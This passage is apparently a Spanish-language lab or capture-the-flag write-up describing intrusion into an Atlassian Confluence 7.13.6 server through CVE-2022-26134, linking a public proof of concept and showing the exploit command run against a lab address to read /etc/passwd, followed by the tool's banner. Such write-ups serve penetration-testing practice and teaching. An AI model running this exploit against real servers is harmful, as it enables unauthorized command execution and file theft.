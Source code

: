 
# Intrusión - [CVE-2022-26134](https://www.tarlogic.com/blog/cve-2022-26134-vulnerability-atlassian-confluence/) en `Atlassian Confluence`

Enumerando un poco me encuentro con una web en el puerto 8090 que está ejecutando lo siguiente:

<p align="center">
<img src="/assets/images/pg-writeup-flu/Pasted image 20250228234204.png">
</p>

Una versión `7.13.6` de `Atlassian Confluence.`

Buscando en google posibles exploits me encuentro con esto: 

[CVE-2022-26134-POC](https://github.com/jbaines-r7/through_the_wire)

<p align="center">
<img src="/assets/images/pg-writeup-flu/Pasted image 20250228234227.png">
</p>

Por lo que se ve, es un zero-day recientemente descubierto que permite, a través de Java, ejecutar comandos y leer archivos sin necesidad de credenciales.

Probemos el exploit (`lectura /etc/passwd`): 

```bash
python3 through_the_wire.py --rhost 192.168.217.41 --rport 8090 --lhost 192.168.45.219 --protocol http:// --read-file /etc/passwd 2>/dev/null

   _____ _                           _     
  /__   \ |__  _ __ ___  _   _  __ _| |__  
    / /\/ '_ \| '__/ _ \| | | |/ _` | '_ \ 
   / /  | | | | | | (_) | |_| | (_| | | | |
   \/   |_| |_|_|  \___/ \__,_|\__, |_| |_|
                               |___/       
   _____ _            __    __ _           
  /__   \ |__   ___  / / /\ \ (_)_ __ ___  
    / /\/ '_ \ / _ \ \ \/  \/ / | '__/ _ \ 
   / /  | | | |  __/  \  /\  /| | | |  __/ 
   \/   |_| |_|\___|   \/  \/ |_|_|  \___| 

                 jbaines-r7                
```